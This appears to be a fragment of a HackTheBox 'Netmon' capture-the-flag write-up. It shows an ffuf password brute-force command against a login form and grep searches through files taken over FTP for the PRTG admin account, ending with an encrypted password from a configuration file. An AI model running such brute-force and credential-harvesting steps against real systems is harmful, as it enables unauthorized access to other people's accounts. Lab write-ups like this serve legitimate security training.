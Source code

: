 ```http
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Netmon]
└─$ ffuf -c -request login.req -request-proto http -w ./passwords_onerule.txt -fs 0
```


## Attempts while trying to get password from ftp

> Wasted a lot of time due to not specifying `-E5` with grep :/
{: .prompt-tip }

```bash
┌──(bravosec㉿fsociety)-[~/htb/Netmon/loot/ftp]
└─$ grep -rin 'prtgadmin'
Users/All Users/Paessler/PRTG Network Monitor/PRTG Configuration.old:29942:                  prtgadmin
Users/All Users/Paessler/PRTG Network Monitor/PRTG Configuration.dat:29942:                  prtgadmin
Users/All Users/Paessler/PRTG Network Monitor/PRTG Configuration.old.bak:141:         <!-- User: prtgadmin -->
Users/All Users/Paessler/PRTG Network Monitor/PRTG Configuration.old.bak:29166:                  prtgadmin
grep: Users/All Users/Paessler/PRTG Network Monitor/Logs (Web Server)/prtg20230926.log: binary file matches
Windows/PRTG Configuration.dat:29942:                  prtgadmin
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Netmon/loot/ftp]
└─$ cat 'Windows/PRTG Configuration.dat'|grep 'prtgadmin' -E20
                </comments>
                <dateformat>
                  0
                </dateformat>
                <email>
                  na@na.com
                </email>
                <fixed>
                  1
                </fixed>
                <grpfoldsize>
                  10
                </grpfoldsize>
                <homepage>
                  /welcome.htm
                </homepage>
                <lastlogin>
                  43522.1088048495
                </lastlogin>
                <login>
                  prtgadmin
                </login>
                <name>
                  PRTG System Administrator
                </name>
                <ownerid>
                  100
                </ownerid>
                <password>
                  <flags>
                    <encrypted/>
                  </flags>
                  <cell col="0" crypt="PRTG">
                    JO3Y7LLK7IBKCMDN3DABSVAQO5MR5IDWF3MJLDOWSA======
```